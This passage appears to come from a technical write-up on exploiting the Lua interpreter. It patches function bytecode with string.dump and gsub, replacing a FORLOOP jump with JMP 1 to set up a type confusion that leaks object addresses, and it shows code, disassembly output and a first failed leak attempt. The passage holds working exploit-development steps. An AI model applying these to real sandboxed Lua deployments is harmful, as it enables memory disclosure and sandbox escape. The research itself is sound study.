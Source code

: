 We will patch it with a `JMP 1`. by doing so, the flow will jump to the
`FORLOOP` instruction, which will increment the index with the value of the `x` step
parameter. This way, by leveraging the type confusion, the returned
index will contain the address of the TValue passed as input.

The next step is to assemble the target instruction:

```lua
# Code
print(string.format("%4x", asm("JMP", 1, 0)))

# Output
80000038
```

And we can then verify that the patching works as expected:

```
# Code
asnum = load(string.dump(function(x)
    for i = 0, 1000000000000, x do return i end
end):gsub("\xca\x80\0\0", "\x38\0\0\x80"))

print(bytecode(asnum))

# Output
function <(string):1,3> (7 instructions at 0x10df28)
1 param, 5 slots, 0 upvalues, 5 locals, 1 constant, 0 functions
	1	7fff8081	[2]	LOADI    	1 0
	2	00000103	[2]	LOADK    	2 0	; 1000000000000
	3	00000180	[2]	MOVE     	3 0
	4	80000038	[2]	JMP      	1	; to 6 <--- PATCHING WORKED!
	5	00020248	[2]	RETURN1  	4
	6	000100c9	[2]	FORLOOP  	1 2	; to 5
	7	000100c7	[3]	RETURN0  	
constants (1) for 0x10df28:
	0	1000000000000
locals (5) for 0x10df28:
	0	x	1	8
	1	(for state)	4	7
	2	(for state)	4	7
	3	(for state)	4	7
	4	i	5	6
upvalues (0) for 0x10df28:
```

### Leak Denied

By trying to leak a TValue result with the type confusion,
something is immediately off:

```
# Code
asnum = load(string.dump(function(x)
    for i = 0, 1000000000000, x do return i end
end):gsub("\xca\x80\0\0", "\x38\0\0\x80"))

foo = function() print(1) end
print("foo:", foo)

print("leak:",asnum(foo))

# Output
foo:	LClosure: 0x10a0c0
leak:     <--- OUTPUT SHOULD NOT BE NULL!
```
